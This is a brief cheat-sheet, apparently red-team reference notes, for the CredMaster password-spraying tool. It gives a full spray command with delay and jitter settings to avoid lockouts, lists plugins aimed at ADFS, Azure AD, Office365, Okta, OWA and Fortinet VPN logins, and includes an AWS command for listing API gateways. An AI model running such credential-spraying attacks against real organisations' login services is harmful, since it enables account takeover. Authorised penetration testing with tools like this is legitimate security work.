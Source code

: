 ### Source
https://github.com/knavesec/CredMaster

### Start password spray (-t threads, -m minimum jitter seconds, -j jitter, -d minute delay between pws)
```
python3 credmaster.py --access_key <key> --secret_access_key "<secret>" --plugin <plugin> --url "https://<domain>" -u <userList> -p <passwordList> -a <useragentList> -o <outFile> --region <region> --passwordsperdelay 1 -t 1 -m 30 -j 60 -d 180
```

### Plugins
```
ADFS - Active Directory Federation Services
AzureSSO - Azure AD Seamless SSO Endpoint
AzVault - AzVault Module, Azure spray point different to MSOL/AzureSSO
EWS - Exchange Web Services
FortinetVPN - Fortinet VPN Client
HTTPBrute - Generic HTTP Brute Methods (Basic/Digest/NTLM)
MSGraph - MSGraph Module, msgraph spray point for azure and MSOL credentials
MSOL - Microsoft Online
O365Enum - Office365 User Enum (No Authentication Request)
O365 - Office365 - DEPRECATED
Okta - Okta Authentication Portal
OWA - Outlook Web Access
```

### Get aws api gateways
```
aws apigateway --region <region> get-rest-apis | jq -r '.items[] | .id, .name, (.createdDate | todate)'
```

